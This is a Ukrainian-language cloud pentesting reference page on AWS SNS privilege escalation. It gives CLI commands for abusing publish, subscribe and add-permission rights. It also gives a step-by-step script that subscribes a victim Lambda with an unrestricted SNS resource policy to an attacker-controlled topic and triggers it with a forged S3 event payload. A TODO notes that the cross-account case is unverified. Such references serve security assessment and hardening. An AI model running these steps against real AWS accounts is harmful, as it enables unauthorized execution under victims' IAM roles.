 # AWS - SNS Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## SNS

Для отримання додаткової інформації див.:

{{#ref}}
../../aws-services/aws-sns-enum.md
{{#endref}}

### `sns:Publish`

Зловмисник може надсилати шкідливі або небажані повідомлення в тему SNS, що потенційно може призвести до пошкодження даних, ініціювання небажаних дій або виснаження ресурсів.
```bash
aws sns publish --topic-arn <value> --message <value>
```
**Потенційний вплив**: Використання вразливості, пошкодження даних, небажані дії або вичерпання ресурсів.

### `sns:Subscribe`

Зловмисник може підписатися на тему SNS, потенційно отримавши несанкціонований доступ до повідомлень або порушивши нормальне функціонування додатків, що використовують цю тему.
```bash
aws sns subscribe --topic-arn <value> --protocol <value> --endpoint <value>
```
**Потенційний вплив**: Несанкціонований доступ до повідомлень (чутлива інформація), порушення роботи застосунків, які залежать від ураженого topic.

### `sns:AddPermission`

Зловмисник може надати неавторизованим користувачам або сервісам доступ до SNS topic, що потенційно дозволяє отримати додаткові права.
```bash
aws sns add-permission --topic-arn <value> --label <value> --aws-account-id <value> --action-name <value>
```
**Можливий вплив**: несанкціонований доступ до topic, розкриття повідомлень або маніпуляція topic з боку неавторизованих користувачів чи сервісів, порушення нормальної роботи додатків, що залежать від topic.

### Виклик Lambda шляхом зловживання wildcard SNS permission (no `SourceArn`)

Якщо resource-based policy функції Lambda дозволяє `sns.amazonaws.com` викликати її без обмеження джерела topic (`SourceArn`), будь-який SNS topic (навіть в іншому account) може підписатися та тригернути функцію. Зловмисник із базовими SNS permissions може змусити Lambda виконатися під її IAM role з input, контрольованим зловмисником.

> [!TIP]
> TODO: Чи справді це можна зробити між акаунтами?

Передумови
- Політика жертви Lambda містить statement як нижче, без умови `SourceArn`:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {"Service": "sns.amazonaws.com"},
"Action": "lambda:InvokeFunction"
// No Condition/SourceArn restriction here
}
]
}
```
Кроки зловживання (в тому ж акаунті або між акаунтами)
```bash
# 1) Create a topic you control
ATTACKER_TOPIC_ARN=$(aws sns create-topic --name attacker-coerce --region us-east-1 --query TopicArn --output text)

# 2) Subscribe the victim Lambda to your topic
aws sns subscribe \
--region us-east-1 \
--topic-arn "$ATTACKER_TOPIC_ARN" \
--protocol lambda \
--notification-endpoint arn:aws:lambda:us-east-1:<victim_acct_id>:function:<VictimFunctionName>

# 3) Publish an attacker-controlled message to trigger the Lambda
aws sns publish \
--region us-east-1 \
--topic-arn "$ATTACKER_TOPIC_ARN" \
--message '{"Records":[{"eventSource":"aws:s3","eventName":"ObjectCreated:Put","s3":{"bucket":{"name":"attacker-bkt"},"object":{"key":"payload.bin"}}}]}'
```
**Можливий вплив**: Цільова Lambda виконується з її IAM role, обробляючи attacker-controlled input. Це може бути використано, щоб змусити функцію виконувати чутливі дії (наприклад, запис у S3, доступ до secrets, змінення ресурсів) залежно від її дозволів.

{{#include ../../../../banners/hacktricks-training.md}}
